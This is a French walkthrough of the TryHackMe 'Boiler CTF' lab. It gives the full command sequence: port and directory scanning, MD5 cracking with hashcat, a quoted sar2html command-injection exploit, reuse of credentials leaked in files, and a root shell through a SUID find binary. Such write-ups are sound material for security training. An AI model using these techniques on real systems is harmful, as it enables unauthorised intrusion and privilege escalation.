



# Boiler CTF #

## Task 1 Questions #1 ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.242.229 boiler.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A boiler.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 09:51 CEST
Nmap scan report for boiler.thm (10.10.242.229)
Host is up (0.038s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/19%OT=21%CT=1%CU=41495%PV=Y%DS=2%DC=T%G=Y%TM=611E0DF
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   33.30 ms 10.9.0.1
2   33.46 ms boiler.thm (10.10.242.229)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.20 seconds

```

**File extension after anon login**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp boiler.thm
Connected to boiler.thm.
220 (vsFTPd 3.0.3)
Name (boiler.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> 
```

On voit l'extension du fichier est txt.  

La réponse est : txt 

**What is on the highest port?**

On voit le service SSH sur le plus port.   

La réponse est : ssh

**What's running on port 10000?**

On voit sur le port que logiciel Webmin est présent.   

La réponse est : webmin

**Can you exploit the service running on that port? (yay/nay answer)**

La réponse nay quand l'exercise avait été fait.    

**What's CMS can you access?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://boiler.thm:80/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 11321]
/joomla               (Status: 301) [Size: 309] [--> http://boiler.thm/joomla/]
/manual               (Status: 301) [Size: 309] [--> http://boiler.thm/manual/]
/robots.txt           (Status: 200) [Size: 257]                                
/server-status        (Status: 403) [Size: 298]                    
```

On voit un répertoire joomla. 
Joomla  c'est un CMS.   

La réponse est : joomla   

**Keep enumerating, you'll know when you find it.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://boiler.thm:80/robots.txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

A la fin du fichier robots.txt on voit une suite de nombres.    

![page(!./Task1-01.png)]

C'est du décimal à ASCII.   

Une fois décodée on a : OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK' | base64 -d
99b0660cd95adea327c54182baa51584
```

C'est du base64.
La chaîne décodée donne : 99b0660cd95adea327c54182baa51584   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hash-identifier 99b0660cd95adea327c54182baa51584 | head -20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x

```

Ce hash est du MD5.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
99b0660cd95adea327c54182baa51584:kidding
```

En cassant le hash avec hascat on découvre un mot de passe qui est kidding.   

**The interesting file name in the folder?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://boiler.thm:80/joomla -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 301]
/_archive             (Status: 301) [Size: 318] [--> http://boiler.thm/joomla/_archive/]
/_database            (Status: 301) [Size: 319] [--> http://boiler.thm/joomla/_database/]
/_files               (Status: 301) [Size: 316] [--> http://boiler.thm/joomla/_files/]   
/_test                (Status: 301) [Size: 315] [--> http://boiler.thm/joomla/_test/]    
/~www                 (Status: 301) [Size: 314] [--> http://boiler.thm/joomla/~www/]     
/administrator        (Status: 301) [Size: 323] [--> http://boiler.thm/joomla/administrator/]
/bin                  (Status: 301) [Size: 313] [--> http://boiler.thm/joomla/bin/]          
/build                (Status: 301) [Size: 315] [--> http://boiler.thm/joomla/build/]        
/cache                (Status: 301) [Size: 315] [--> http://boiler.thm/joomla/cache/]        
/components           (Status: 301) [Size: 320] [--> http://boiler.thm/joomla/components/]   
/images               (Status: 301) [Size: 316] [--> http://boiler.thm/joomla/images/]       
/includes             (Status: 301) [Size: 318] [--> http://boiler.thm/joomla/includes/]     
/index.php            (Status: 200) [Size: 12484]                                            
/installation         (Status: 301) [Size: 322] [--> http://boiler.thm/joomla/installation/] 
/language             (Status: 301) [Size: 318] [--> http://boiler.thm/joomla/language/]     
/layouts              (Status: 301) [Size: 317] [--> http://boiler.thm/joomla/layouts/]      
/libraries            (Status: 301) [Size: 319] [--> http://boiler.thm/joomla/libraries/]    
/media                (Status: 301) [Size: 315] [--> http://boiler.thm/joomla/media/]        
/modules              (Status: 301) [Size: 317] [--> http://boiler.thm/joomla/modules/]      
/plugins              (Status: 301) [Size: 317] [--> http://boiler.thm/joomla/plugins/]      
/templates            (Status: 301) [Size: 319] [--> http://boiler.thm/joomla/templates/]    
/tests                (Status: 301) [Size: 315] [--> http://boiler.thm/joomla/tests/]        
/tmp                  (Status: 301) [Size: 313] [--> http://boiler.thm/joomla/tmp/]   
```

En analysant les répertoires on trouve un qui nous intéresse, le : \/_test.   

    

On trouve un servie sar2html, regardons si il y a pas d'exploit dessus.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit sar2html
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                                                                               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                                                                   | php/webapps/47204.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/php/webapps/47204.txt 
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

D'après l'exploit on faire des commandes à distance.   

    

Le fichier qui non intéresse est : log.txt

Réponse : log.txt 

## Task 2 Questions #2 ##

**Where was the other users pass stored(no extension, just the name)?**

    

Dans log.txt on remarque des identifiants.   

Nom : basterd   
Mot de passe  : superduperp@$$

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh basterd@boiler.thm -q -p 55007
basterd@boiler.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
$ ls
backup.sh
```

Il fichier qui nous intéresse est : backup.sh   

Réponse : backup    

**user.txt**

```bash
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
	     echo "Begining copy of" $i  >> $LOG
	     scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
	     echo $i "completed" >> $LOG
		
		if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		    rm $SOURCE/$i
		    echo $i "removed" >> $LOG
		    echo "####################" >> $LOG
				else
					echo "Copy not complete" >> $LOG
					exit 0
		fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi

```

On regarde le fichier backup.sh, on trouve des identifiants.
Nom : stoner   
Mot de passe : superduperp@$$no1knows

```bash
Password: 
stoner@Vulnerable:/home/basterd$ id
uid=1000(stoner) gid=1000(stoner) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

stoner@Vulnerable:/home/basterd$ cd /home/stoner/
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret

stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

Avec les identifiants on se connect sur le compte stoner.   
Dans le répertoire \∕home\∕stoner on trouve un fichier .secret.    
Dans le fichier .secret on voit le flag.   

La réponse est : You made it till here, well done.   

**What did you exploit to get the privileged user?**

```bash
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

On peut exploiter cette faille mais ce n'ai pas l'objectif de l'exercise.    

```bash
stoner@Vulnerable:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

On regarde les fichiers setuid, on peut exploiter find pour avoir un shell. 

La réponse est : find    

**root.txt**

Création d'un shell avec find.        

```bash
stoner@Vulnerable:~$ cd /tmp
stoner@Vulnerable:/tmp$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# ls /root/
root.txt
# cat /root/root.txt
It wasn't that hard, was it?
```

On obtient un shell root avec find.    
On trouve le dernier flag dans le fichier root.txt.   

La réponse est : It wasn't that hard, was it?      